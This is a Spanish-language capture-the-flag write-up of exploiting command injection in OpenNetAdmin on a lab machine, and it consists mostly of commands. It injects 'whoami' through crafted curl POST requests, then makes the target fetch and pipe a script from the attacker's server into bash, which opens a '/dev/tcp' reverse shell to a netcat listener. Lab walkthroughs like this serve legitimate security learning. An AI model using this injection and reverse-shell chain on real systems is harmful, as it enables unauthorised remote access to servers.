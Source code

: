 Vemos que es un simple oneliner que envia con curl una peticion por POST. Intentamos con un whoami

```bash
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1 | html2text
```

Vemos que esto funcciona sin problemas. Intentamos ver si tenemos conectividad con la maquina.

1. Lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos una peticion curl a nuestra maquina

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

Como hemos recibido la peticion get, intentamos ganar accesso al systema.## Vuln exploit & Gaining Access {-}

### Ganando accesso con curl al opennetadmin {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un fichero index.html con codigo bash

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el curl con reverseshell

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8|bash;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

Ya hemos ganado accesso al systema.
